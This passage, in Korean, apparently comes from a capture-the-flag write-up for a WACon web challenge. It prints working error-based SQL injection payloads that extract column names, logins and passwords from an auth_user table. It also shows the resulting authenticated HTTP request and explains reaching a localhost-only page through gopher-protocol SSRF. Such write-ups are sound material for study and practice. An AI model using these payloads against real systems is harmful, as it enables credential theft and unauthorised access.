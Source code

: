 위에서 알 수 있듯이 핵심처럼 보이는 auth_user라는 테이블을 볼 수 있다. (1은 `floor(rand(0)*2)` 때문에 붙는거다.)

다음과 같이 Payload를 여러번 번갈아서 요청 보냈다.

```python
# Get Columns
payload = "guest' union (select 1,count(*),concat((select column_name from information_schema.columns where table_name = 'auth_user' limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'id1' for key '<group_key>' </p>
# 'login1' for key '<group_key>' </p>
# 'password1' for key '<group_key>' <

# Get Password
payload = "guest' union (select 1,count(*),concat((select password from auth_user limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'WACon{Try_using_Gophhhher1' for ke

# Get Login
payload = "guest' union (select 1,count(*),concat((select login from auth_user limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'admin1' for key '<group_key>' </p>
```

즉 admin:WACon{Try_using_Gophhhher 이 로그인이 되는 것이다. 누가봐도 “WACon{Try_using_Gophhhher”는 Flag 포멧이었는데 약간 엉성해보인다. 그 이유는 ‘}’로 닫혀 있지 않아서였는데, 로그인을 시도해보았다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic YWRtaW46V0FDb257VHJ5X3VzaW5nX0dvcGhoaGhlcg==
Content-Length: 7

asd=asd

[ Response ]
HTTP/1.1 200 OK
...

from localhost only !
```

그렇다… 또 SSRF를 해야하는 것이다. 그러나 요기서 SSRF는 조금 다르다. 몇가지 특징이 있는데, 그 특징들은 다음과 같다.

1. Authorization Header가 넘어가야한다는 것
2. POST 방식으로 data도 넘어가야한다는 것

이 두가지를 만족시켜주는 것은 gopher 프로토콜이다. gopher 프로토콜은 `gopher://` 처럼 사용하여 뒤에 경로, Request Method, Header들을 덧붙여 요청할 수 있다. 앞서 SSRF 방식 2가지 중 2번째인 Response Header에 gopher Location 헤더를 넣어 서버를 구동하였다.

- Gopher Post 참고 : [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)
- !!주의!! : Host, Port, 그리고 Accpet 모두 아래와 같이 있어야한다. (Port는 상황에 따라 다름)
